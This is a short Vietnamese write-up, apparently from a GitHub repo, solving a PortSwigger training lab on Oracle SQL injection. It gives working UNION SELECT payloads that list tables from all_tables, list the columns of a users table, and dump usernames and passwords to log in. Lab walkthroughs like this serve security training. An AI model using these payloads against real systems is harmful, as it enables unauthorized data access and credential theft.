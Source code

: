 # SQL injection attack, listing the database contents on Oracle

Như thường lệ ta check xem có bao nhiêu cột và kiểu dữ liệu trong cột đó là gì, làm như những bài trước thì ta thấy có 2 cột và kiểu dữ liệu string.

Ta sử dụng câu lệnh `' UNION SELECT TABLE_NAME, NULL FROM all_tables--` để liệt kê ra tên các bảng, sau đó tìm bảng có tên liên quan tới `users` 

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/4.1.png?raw=true)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE TABLE_NAME = 'USERS_GGLJHE'--` để liệt kê ra tên các cột bên trong bảng `USERS_GGLJHE`.

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/4.2.png?raw=true)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT PASSWORD_HYUDNK, USERNAME_EMUICX FROM USERS_GGLJHE--` để truy cập vào thông tin 2 cột trên và đăng nhập thui

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/4.3.png?raw=true)

Login và hoàn thành bài lab thui!
